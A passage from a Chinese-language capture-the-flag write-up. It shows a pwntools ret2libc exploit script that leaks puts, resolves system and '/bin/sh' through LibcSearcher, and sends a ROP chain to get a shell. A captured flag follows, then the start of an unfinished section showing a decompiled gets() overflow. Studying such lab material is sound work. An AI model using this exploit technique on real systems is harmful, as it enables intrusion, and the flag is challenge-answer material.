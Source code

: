 ```python

p.recvuntil(b'Input your Plaintext to be encrypted\n')
p.sendline(payload)
p.recvline()
p.recvline()

puts_addr = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(retx_addr) + p64(rdix_addr)

payload_exp += p64(binsh_addr) + p64(system_addr)

p.recvuntil(b'Input your Plaintext to be encrypted')
p.sendline(payload_exp)

p.interactive()
```



拿到flag：

```
flag{3f6ddea2-b817-4c30-87a5-932479cd6e00}
```



## get_started_3dsctf_2016(未完成)



check一下 32位，partial relro，nx开启

ida打开好像似曾相识

main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```
